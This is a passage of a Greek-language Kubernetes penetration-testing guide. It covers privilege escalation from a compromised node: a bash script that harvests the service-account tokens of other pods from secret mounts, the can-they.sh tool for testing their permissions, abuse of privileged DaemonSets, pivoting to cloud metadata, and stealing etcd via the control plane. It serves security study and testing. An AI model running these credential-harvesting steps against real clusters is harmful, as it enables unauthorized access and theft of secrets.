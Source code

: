 ```bash
ALREADY="IinItialVaaluE"
for i in $(mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'); do
TOKEN=$(cat $(echo $i | sed 's/.namespace$/\/token/'))
if ! [ $(echo $TOKEN | grep -E $ALREADY) ]; then
ALREADY="$ALREADY|$TOKEN"
echo "Directory: $i"
echo "Namespace: $(cat $i)"
echo ""
echo $TOKEN
echo "================================================================================"
echo ""
fi
done
```
Το σενάριο [**can-they.sh**](https://github.com/BishopFox/badPods/blob/main/scripts/can-they.sh) θα ανακτήσει αυτόματα **τα τοκεν των άλλων pods και θα ελέγξει αν έχουν την άδεια** που ψάχνετε (αντί να το ελέγχετε ένα-ένα):
```bash
./can-they.sh -i "--list -n default"
./can-they.sh -i "list secrets -n kube-system"// Some code
```
### Προνομιούχα DaemonSets

Ένα DaemonSet είναι ένα **pod** που θα **τρέχει** σε **όλους τους κόμβους του cluster**. Επομένως, αν ένα DaemonSet ρυθμιστεί με ένα **προνομιούχο λογαριασμό υπηρεσίας**, σε **ΟΛΟΥΣ τους κόμβους** θα μπορείτε να βρείτε το **διακριτικό** εκείνου του **προνομιούχου λογαριασμού** που θα μπορούσατε να καταχραστείτε.

Η εκμετάλλευση είναι η ίδια με αυτήν της προηγούμενης ενότητας, αλλά τώρα δεν εξαρτάστε από την τύχη.

### Εναλλαγή στο Cloud

Αν το cluster διαχειρίζεται από έναν υπηρεσία cloud, συνήθως ο **Κόμβος θα έχει διαφορετική πρόσβαση στο τέλειο μεταδεδομένων** σε σχέση με το Pod. Επομένως, προσπαθήστε να **έχετε πρόσβαση στο τέλειο μεταδεδομένων από τον κόμβο** (ή από ένα pod με hostNetwork σε True):

{% content-ref url="kubernetes-pivoting-to-clouds.md" %}
[kubernetes-pivoting-to-clouds.md](kubernetes-pivoting-to-clouds.md)
{% endcontent-ref %}

### Κλοπή του etcd

Αν μπορείτε να καθορίσετε το [**όνομαΚόμβου**](https://kubernetes.io/docs/tasks/configure-pod-container/assign-pods-nodes/#create-a-pod-that-gets-scheduled-to-specific-node) του Κόμβου που θα εκτελέσει το container, αποκτήστε ένα κέλυφος μέσα σε έναν κόμβο ελέγχου και αποκτήστε τη **βάση δεδομένων etcd**:
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```
control-plane κόμβοι έχουν τον **ρόλο master** και σε **σύνολα διαχειριζόμενα στο cloud δεν θα μπορείτε να εκτελέσετε τίποτα σε αυτούς**.
